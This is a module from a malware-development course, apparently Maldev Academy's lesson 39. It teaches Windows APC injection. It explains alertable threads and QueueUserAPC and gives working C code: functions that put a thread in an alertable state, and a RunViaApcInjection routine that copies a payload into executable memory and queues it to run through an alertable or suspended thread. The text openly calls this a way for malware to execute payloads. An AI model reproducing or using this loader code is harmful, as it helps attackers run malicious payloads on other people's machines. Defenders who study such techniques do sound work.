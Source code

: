 39. APC Injection[**39. APC Injection**](https://maldevacademy.com/modules/39)
=============================================================

**APC Injection**
-----------------

### **Introduction**

This module introduces another way to run a payload without having to create a new thread. This technique is known as APC injection.

### **What is APC?**

[Asynchronous Procedure Calls](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) are a Windows operating system mechanism that enables programs to execute tasks asynchronously while continuing to run other tasks. APCs are implemented as kernel-mode routines that are executed in the context of a specific thread. Malware can leverage APCs to queue a payload and then have it execute when scheduled.

### **Alertable State**

Not all threads can run a queued APC function, only threads in an *alertable state* can do so. An alertable state thread is a thread that is in a wait state. When a thread enters an alertable state it is placed in a queue of alertable threads, allowing it to run queued APC functions.

### **What is APC Injection?**

To queue an APC function to a thread, the address of the APC function must be passed to the [QueueUserAPC](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) WinAPI. According to Microsoft's documentation:

*An application queues an APC to a thread by calling the QueueUserAPC function. The calling thread specifies the address of an APC function in the call to QueueUserAPC.*

The injected payload's address will be passed to `QueueUserAPC` in order to have it executed. Before doing so, a thread in the local process must be placed in an alertable state.

### **QueueUserAPC**

`QueueUserAPC` is shown below and it accepts 3 arguments:

* `pfnAPC` - The address of the APC function to be called.
* `hThread` - A handle to an alertable thread or suspended thread.
* `dwData` - If the APC function requires parameters, they can be passed here. This value will be `NULL` in this module's code.


```
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);

```
### **Placing a Thread In An Alertable State**

The thread that will be executing the queued function needs to be in an alertable state. This can be done by creating a thread and using one of the following WinAPIs:

* [Sleep](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleep)
* [SleepEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex)
* [MsgWaitForMultipleObjects](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjects)
* [MsgWaitForMultipleObjectsEx](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex)
* [WaitForSingleObject](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)
* [WaitForSingleObjectEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex)
* [WaitForMultipleObjects](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjects)
* [WaitForMultipleObjectsEx](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjectsex)
* [SignalObjectAndWait](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait)

These functions are used for synchronizing threads and improving performance and responsiveness in applications, however in this case, passing a handle to a dummy event is sufficient. Passing the correct parameters to these functions is not necessary since simply using one of the functions is enough to place the thread in an alertable state.

To create a dummy event, the [CreateEvent](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-createeventw) WinAPI will be used. The newly created event object is a synchronization object that allows threads to communicate with each other by signaling and waiting for events. Since the output of `CreateEvent` is irrelevant, any valid event can be passed to the previously shown WinAPIs.

### **Using The Functions**

Any of the following functions can be used as a sacrificial alertable thread to run the queued APC payload. See below for examples of how to use the functions to place the current thread in an alertable state.

**Using**`**Sleep**`


```
VOID AlertableFunction1() {

	Sleep(-1);
}


```
**Using**`**SleepEx**`


```
VOID AlertableFunction2() {

	SleepEx(INFINITE, TRUE);
}

```
**Using**`**WaitForSingleObject**`


```
VOID AlertableFunction3() {

	HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
	if (hEvent){
		WaitForSingleObject(hEvent, INFINITE);
		CloseHandle(hEvent);
	}
}

```
**Using**`**MsgWaitForMultipleObjects**`


```
VOID AlertableFunction4() {

	HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);
	if (hEvent) {
		MsgWaitForMultipleObjects(1, &hEvent, TRUE, INFINITE, QS_INPUT);
		CloseHandle(hEvent);
	}
}

```
**Using**`**SignalObjectAndWait**`


```
VOID AlertableFunction5() {

	HANDLE hEvent1 = CreateEvent(NULL, NULL, NULL, NULL);
	HANDLE hEvent2 = CreateEvent(NULL, NULL, NULL, NULL);

	if (hEvent1 && hEvent2) {
		SignalObjectAndWait(hEvent1, hEvent2, INFINITE, TRUE);
		CloseHandle(hEvent1);
		CloseHandle(hEvent2);
	}
}

```
### **Suspended Threads**

`QueueUserAPC` can also succeed if the target thread is created in a suspended state. If this method is used to execute the payload, `QueueUserAPC` should be called first and then the suspended thread should be resumed next. Again, the thread must be created in a suspended state, suspending an existing thread will not work.

The code shared in this module demonstrates APC injection via an alertable and suspended thread.

### **APC Injection Implementation Logic**

To summarize, the implementation logic will be as follows:

1. First, create a thread that runs one of the previously mentioned functions to place it in an alertable state.
2. Inject the payload into memory.
3. The thread handle and payload base address will be passed as input parameters to `QueueUserAPC`.

### **APC Injection Function**

`RunViaApcInjection` is a function that performs APC Injection and requires 3 arguments:

* `hThread` - A handle to an alertable or suspended thread.
* `pPayload` - A pointer to the payload's base address.
* `sPayloadSize` - The size of the payload.


```
BOOL RunViaApcInjection(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	PVOID pAddress = NULL;
	DWORD dwOldProtection = NULL;


	pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("\t[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	memcpy(pAddress, pPayload, sPayloadSize);


	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\t[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// If hThread is in an alertable state, QueueUserAPC will run the payload directly
	// If hThread is in a suspended state, the payload won't be executed unless the thread is resumed after
	if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
		printf("\t[!] QueueUserAPC Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}


```
### **Demo - APC Injection Using An Alertable Thread**

[![](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-1-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-1-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)


[![](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-1-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-1-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)****Demo - APC Injection Using a Suspended Thread****

[![](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-2-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-2-109284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)[![](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-2-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)](39%20APC%20Injection%2086545b9163834568b0a197adc696666e/apc-demo-2-209284381-1875d55b-1574-4421-b4e9-6f6948a5a316.png)